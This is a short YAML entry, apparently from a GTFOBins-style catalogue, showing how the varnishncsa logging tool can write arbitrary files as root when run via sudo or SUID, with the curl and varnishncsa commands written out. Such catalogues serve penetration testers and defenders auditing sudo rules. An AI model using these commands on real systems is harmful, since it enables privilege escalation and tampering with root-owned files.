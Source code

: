 ```yaml
---
description: |
  This allows to write arbitrary files as root, provided that the proper HTTP response is made. Specifically the content of a certain header will be written in the file. First start `varnishncsa` as follows, then trigger the file write with:

  ```
  curl -H 'yyy: DATA' http://localhost:6081/xxx
  ```
description: 
functions:
  sudo:
    code: |
      LFILE=file_to_write
      sudo varnishncsa -g request -q 'ReqURL ~ "/xxx"' -F '%{yyy}i' -w "$LFILE"
  suid:
    code: |
      LFILE=file_to_write
      ./varnishncsa -g request -q 'ReqURL ~ "/xxx"' -F '%{yyy}i' -w "$LFILE"
---
```

